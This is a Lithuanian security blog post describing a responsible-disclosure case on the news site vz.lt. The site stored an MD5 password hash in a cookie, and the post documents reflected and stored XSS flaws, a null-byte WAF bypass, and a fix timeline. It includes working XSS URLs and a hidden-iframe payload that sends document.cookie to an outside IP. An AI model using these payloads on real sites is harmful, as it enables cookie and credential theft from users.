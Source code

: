 ﻿---
layout:     post
title:      "Kas skaito VŽ slapukus?"
date:       2022-05-02 08:00:00
categories: HackAndTell
cover:      manovz.svg); background-color:rgb(187,1,42); background-color:rgb(187,1,42
permalink:  /lt/blog/vz-slapukai
---
Atsitik tu man taip, kad naršydamas [Verslo Žinias](https://www.vz.lt) (VŽ) paspaudžiau "[uždraustą](https://techcrunch.com/2021/10/15/f12-isnt-hacking-missouri-governor-threatens-to-prosecute-local-journalist-for-finding-exposed-state-data/) [mygtuką](https://twitter.com/GovParsonMO/status/1448697768311132160)" F12. Dėmesį patraukė ilgas slapukų sąrašas:

![VŽ slapukų sąrašas](vz_slapukai.png "Slapukai")

Ten buvo slapukų su įdomiu pavadinimu [evercookie](https://en.wikipedia.org/wiki/Evercookie), bet ši istorija ne apie tai. Labiausiai kliuvo `VzLtLoginInfo`, kurio reikšmė buvo mano elektroninio pašto adresas, ir `VzLTLoginInfoPwd`, kurio reikšmė buvo 32-iejų raidžių ir skaičių kratinys. Kadangi savo slaptažodį puikiai žinau, greitai [patikrinau](https://emn178.github.io/online-tools/md5.html) hipotezę, kad tai jo MD5 reikšmė.

### Web programų 101

Reikia pasakyti, kad tai rimtas anti-pattern'as. Vartotojo slaptažodis turi būti perduodamas į serverį vieną vienintelį kartą per šifruotą HTTPS prisijungimą. Serveris nustato vartotojo tapatybę ir stateful architektūros atveju sukuria vartotojui sesiją. Tam serveris turi sugeneruoti tikrai atsitiktinį identifikatorių, kurio neįmanoma atspėti. Ir ne, [Math.random()](https://securitylab.github.com/advisories/GHSL-2020-228-YMFE-yapi/) ir kiti PRNG algoritmai tam netinka. Naršyklė gautą sesijos identifikatorių išsaugo pvz. slapuke.

Toliau naršyklė ir serveris bendrauja tik per sesijos identifikatorių. Vartotojo slaptažodis naršyklėje niekur nesaugomas jokiame pavidale iš kurio galima būtų atkurti jo pradinę reikšmę (MD5 yra super greitas, super pasenęs algoritmas, leidžiantis milžinišku greičiu surasti pradinį slaptažodį). Vartotojui atsijungus (angl. sign out) sesija serveryje yra panaikinama ir senas sesijos identifikatorius nebetenka jokios reikšmės.

### Na ir kas?

Galite paklausti: "Na ir kas čia tokio, kad slaptažodžio MD5 reikšmė išsaugoma slapuke? Juk ji išsaugoma mano kompiuteryje, mano naršyklėje ir neprieinama niekam kitam. Tik man ir serveriui, kuris ir taip mano slaptažodį žino." Galima būtų tiesiog pasijuokti iš tokio architektūrinio sprendimo ir tiek, bet pabandykime pademonstruoti jo įtaką saugumui.

Kaip matome `VzLtLoginInfoPwd` slapukas neturi `HttpOnly` atributo (t.y. JavaScript puslapio kodas turi teisę jį perskaityti) ir išrašytas visiems [vz.lt](https://vz.lt) subdomain'ams. Tai reiškia kad XSS pažeidžiamumo atveju bet kokiame iš [vz.lt](https://vz.lt) subdomain'ų ([www.vz.lt](https://www.vz.lt), [mano.vz.lt](https://mano.vz.lt), [login.vz.lt](https://login.vz.lt) ir t.t.) kenkėjiškas kodas gali jį pavogti. Sėkmingos vagystės atveju galima atkurti pradinį slaptažodį, bet tai net nesvarbu, nes pavogta MD5 reikšmė pati savaimė yra "prisijungimo bilietas". **Tačiau skirtingai nuo sesijos identifikatoriaus, pavogta reikšmė galioja tiek, kiek galioja vartotojo slaptažodis.**

### Ieškome XSS

Pabandykime surasti XSS VŽ portale... Po kurio laiko išryškėja pirmasis kandidatas: [https://www.vz.lt/apps/pbcs.dll/exec?name=asdf](https://www.vz.lt/apps/pbcs.dll/exec?name=asdf).

Serveris atsako pranešimu:

![ERROR: Script asdf is missing!](vz_script_asdf_is_missing.png "ERROR: Script asdf is missing!")

Tai, kad serveris "atspindi" mūsų įvestą reikšmę yra geras ženklas. Pabandome [https://www.vz.lt/apps/pbcs.dll/exec?name=&lt;i>asdf&lt;/i>](https://www.vz.lt/apps/pbcs.dll/exec?name=<i>asdf</i>) ir gauname:

![SQL Injection. System will not process this request.](vz_sqli.png "SQL Injection. System will not process this request.")

Tas pats ir su [https://www.vz.lt/apps/pbcs.dll/exec?name=&lt;](https://www.vz.lt/apps/pbcs.dll/exec?name=<). Panašu į kažkokį savadarbį [WAF](https://en.wikipedia.org/wiki/Web_application_firewall) (Web Application Firewall). Galima tik spėlioti prie ko čia SQL injekcija. Pabandome [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;i>asdf&lt;/i>](https://www.vz.lt/apps/pbcs.dll/exec?name=%00<i>asdf</i>) ir matome:

![ERROR: Script (italic pradžia) asdf (italic pabaiga) is missing!](vz_script_asdf_is_missing_italic.png "ERROR: Script asdf is missing!")

Įterpę nulinį baitą sėkmingai apėjome WAF, o serveris atvaizdavo mūsų HTML kodą. [Hello PHP](https://www.php.net/manual/en/security.filesystem.nullbytes.php)? :)

Tačiau įvedę [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;script>alert(1)&lt;/script>](https://www.vz.lt/apps/pbcs.dll/exec?name=%00<script>alert(1)</script>) gauname:

![Access denied. Error 15. What happened? The request was blocked by security rules. Your IP: empty. Proxy IP: 107.154.76.234. Incident ID: empty. Powered by Imperva.](vz_access_denied.png "Access denied")

Panašu, kad VŽ naudoja dar vieną WAF – Imperva. Šis komercinis sprendimas turi ilgą šleifą taisytų klaidų. Ir nors jo apėjimo būdą yra sunkiau surasti, tačiau [nėra](https://www.google.com/search?q=imperva+xss+bypass) [neįmanoma](https://github.com/0xInfection/Awesome-WAF/blob/master/README.md#imperva). Vis dėlto yra lengvesnių kelių. [Openbugbounty](https://www.openbugbounty.org/search/?search=vz.lt&researcher=&program=) randame du įrašus apie XSS VŽ portale, apie kuriuos buvo pranešta Verslo Žinioms 2018 m. Sausio 19 d. ir 2018 m. Rugpjūčio 10 d.:

- [https://www.openbugbounty.org/reports/533348/](https://www.openbugbounty.org/reports/533348/)
- [https://www.openbugbounty.org/reports/661990/](https://www.openbugbounty.org/reports/661990/)

Antrasis yra "pridengtas" Imperva, tačiau pirmasis veikė iki šiol! WAF naudojimas negali būti priežastimi netaisyti žinomų pažeidžiamumų. Ar jis liko neištaisytas todėl, kad yra [akademija.vz.lt](https://akademija.vz.lt), o ne pagrindiniame subdomain'e [www.vz.lt](https://www.vz.lt)? Didelė klaida, nes šis subdomain'as gali skaityti `VzLtLoginInfoPwd` ir `VzLtLoginInfo` slapukus: [https://akademija.vz.lt/paieska/?q=">&lt;script>alert(document.cookie)&lt;/script>](https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ealert\(document.cookie\)%3c/script%3e).

![VŽ akademija alert pranešimas su visais slapukais.](vz_akademija_xss.png "Alert su slapukais")

### Kas iš to alert?

Vietoj `alert` kenkėjiškas kodas galėtų pavogti užklydusio vartotojo slapukus. Tai yra Reflected XSS, nes esamam vartotojui reikia atidaryti šią nuorodą, kad kodas būtų įvykdytas. Tačiau būtų klaidinga nuvertinti tai ir priskirti prie socialinės inžinerijos atakų. VŽ vartotojams, kurie naudoja Safari naršyklę nepasisekė - tereikėjo įterpti šį kodą `<iframe style="display:none" src="https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ehttps://172.17.247.54:4443?c=&#x22;+document.cookie%3c/script%3e"></iframe>` į kokį nulaužtą puslapį, kurį jie aplanko, ir slapukas būtų pavogtas jiems nematant. Iki 2020 m. vasaros tai taip pat veikė Chrome ir Firefox naršyklėse. Dabar tam reikia, kad slapukas būtų pažymėtas atributais `Secure` (leisti siųsti slapuką tiktai per HTTPS) ir `SameSite=None`. VŽ slapukai jų neturi.

Vis dėlto, yra kitas būdas, kuris veikia visur. Šis kodas kenkėjiškame puslapyje arba nulaužtame forume trumpam blykstelėjęs išsiustų [vz.lt](https://vz.lt) slapukus trečioms šalims.

<details>
  <summary style="cursor:pointer">▶ Proof of Concept:</summary>

  <script src="https://gist.github.com/jarlob/22dc518fbfbaa9b64653a220f9dce2e9.js"></script>
</details><br>

### XSS komentaruose Nr. 1

Komentarai - tai taikinys Nr. 1, nes leidžia įvesti kažką, kas bus parodyta kitiems vartotojams. Komentuojančio vartotojo vardas buvo tvarkingai atvaizduojamas net jei tas vardas turėjo specialių HTML simbolių, kaip `Vardas<script>alert(1)</script>`. Tačiau jei į tokio vartotojo komentarą kas nors atsakydavo, jo vardas buvo interpretuojamas kaip HTML kodas. Taigi, iš esmės užteko tam pačiam vartotojui atsakyti į savo paties komentarą, kad straipsnis su tokiu komentaru būtų "apkrėstas" kenkėjišku JavaScript kodų:  

![Stored VŽ XSS. Vartotojo su vardu &lt;script&gt;console.log(13)&lt;/script&gt; komentaras ir naršyklės developer tools console tabas su išvestu skaičiumi 13](vz_stored_xss1.png "Stored XSS")

Tikras kenkėjiškas kodas galėjo lengvai pamodifikuoti antraštę, kad nesimatytų `<i>` ir `<script>` pradiniame pranešime.  
Šis Stored XSS yra pavojingesnis už prieš tai aprašytą Reflected XSS nes:
1. Nereikia niekam siųsti specialiai paruoštų nuorodų arba apkrėtinėti trečiųjų šalių puslapių. Galima įterpti savo kodą tiesiai į VŽ komentarus. Aukai užtenka tiesiog atsiversti komentarų puslapį.  
2. WAF neapsaugo nuo tokio tipo atakos, nes nesugeba atskirti kur yra legitimus kodas, o kur yra įterptas.  

### XSS komentaruose Nr. 2

Po pranešimo VŽ pataisė šią spragą, o taip pat pradėjo filtruoti vartojo vardus vartotojo profilio nustatymuose. Tačiau pastebėjau dar vieną šio XSS atmainą. Tuo metu kai nieko neįtariantis vartotojas tik paspausdavo "Atsakyti" į kenkėjiško vartotojo komentarą, jo vardas vis dar būdavo interpretuojamas kaip HTML:

![Stored VŽ XSS. Vartotojo su vardu Mr&lt;script src=//45.rs&gt; komentaras ir iššokantis langas su tekstu www.vz.lt OK](vz_stored_xss2.png "Stored XSS")

Tai yra irgi Stored XSS, nors kiek mažiau pavojingas. Aukai reikėjo ne tik aplankyti užkrėsto straipsnio komentarus, bet ir paspausti "Atsakyti". Nors kai vartotojas norėdavo pasikeisti vardą, jis buvo filtruojamas, VŽ pamiršo filtruoti vartotojų vardus registracijos metų.

### Chronologija:

2022.01.28 - Išsiųstas el. laiškas VŽ Interneto produktų vystymo skyriaus vadovui ir [NKSC](https://www.cert.lt).  
2022.01.28 - Gautas patvirtinimas iš NKSC.  
2022.02.14 - NKSC pranešė, kad susisiekė su VŽ 2022.02.03 d. Dėl neaiškių aplinkybių mano el. laiškas jų nepasiekė.  
2022.02.14 - VŽ padėkojo ir pranešė, kad XSS ištaisytas, o "slapukų naudojimo planuojama atsisakyti".  
2022.03.09 - Išsiųstas el. laiškas apie Stored XSS VŽ komentaruose VŽ Interneto produktų vystymo skyriaus vadovui ir NKSC.  
2022.01.28 - NKSC pranešė, kad susisiekė su VŽ telefonu.  
2022.03.09 - VŽ padėkojo ir pranešė, kad pažeidžiamumas ištaisytas.  
2022.03.09 - Išsiųstas el. laiškas apie XSS kai vartotojas spaudžia "Atsakyti".  
2022.05.02 - VŽ vis dar saugo slaptažodžio MD5 reikšmę slapuke. Kiti pažeidžiamumai ištaisyti.  
2022.05.31 - VŽ pranešė, kad pašalino slaptažodžio MD5 reikšmės saugojimą slapuke.  
